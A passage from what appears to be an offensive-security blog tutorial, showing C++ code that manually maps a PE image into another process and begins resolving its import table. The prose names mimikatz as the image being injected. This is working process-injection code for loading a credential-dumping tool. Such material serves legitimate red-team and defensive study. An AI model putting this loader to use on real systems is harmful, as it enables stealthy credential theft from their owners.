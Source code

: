         PIMAGE_SECTION_HEADER currentSectionHeader = (PIMAGE_SECTION_HEADER)((uintptr_t)peInjectNtHeaders + 4 + sizeof(IMAGE_FILE_HEADER) + peInjectNtHeaders->FileHeader.SizeOfOptionalHeader + (i * sizeof(IMAGE_SECTION_HEADER)));

        if (!strcmp((char*)currentSectionHeader->Name, ".reloc"))
        {
            peToInjectRelocSection = currentSectionHeader;
            _dbg("\t[+] Reloc table found @ 0x%p offset\r\n", (LPVOID)(UINT64)currentSectionHeader->VirtualAddress);
        }

        if (!WriteProcessMemory(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), (LPVOID)((UINT64)peToInjectContent + currentSectionHeader->PointerToRawData), currentSectionHeader->SizeOfRawData, nullptr))
        {
            _err("[-] ERROR: Cannot write section %s in the target process. ERROR Code: %x\r\n", (char*)currentSectionHeader->Name, GetLastError());
            return FALSE;
        }
        _dbg("\t[+] Section %s written at : 0x%p.\n", (LPSTR)currentSectionHeader->Name, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress));
        if (!strcmp((char*)currentSectionHeader->Name, ".rdata"))
        {
            *offsetRdata = currentSectionHeader->VirtualAddress - currentSectionHeader->PointerToRawData;
        }

        if (!strcmp((char*)currentSectionHeader->Name, ".text"))
        {
            DWORD oldProtect = 0;
            if (!VirtualProtectEx(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), currentSectionHeader->SizeOfRawData, PAGE_EXECUTE_READ, &oldProtect))
            {
                _err("Error in changing permissions on .text sections to RX -> 0x%x\r\n", GetLastError());
                return FALSE;
            }
            _dbg("\t[+] Permissions changed to RX on .text section \r\n");
        }


    }
    return TRUE;
}
{% endhighlight %}

The function now takes an additional argument that is a pointer to a `DWORD` to be able to retrieve the offset of `rdata` section.  
Now let's create a little function to test if we can resolve `mimikatz` IAT. To resolve it we need to get a pointer to the first import descriptor (do not forget to apply the `.rdata` offset when we compute the address) `PIMAGE_IMPORT_DESCRIPTOR importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)((PBYTE)pImage + importsDirectory.VirtualAddress - offsetRdata );`. And then we need to iterate until the structure is empty to retrieve all libraries in the IAT.



{% highlight C++ %}
BOOL loadImportTableLibs(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, DWORD offsetRdata)
{
    PIMAGE_IMPORT_DESCRIPTOR importDescriptor = NULL;
    IMAGE_DATA_DIRECTORY importsDirectory = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
    if (importsDirectory.Size <= 20)
    {
        _dbg("[*] Empty IAT");
        return TRUE;
    }
    
    importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)(importsDirectory.VirtualAddress - offsetRdata + (PBYTE)pImage);
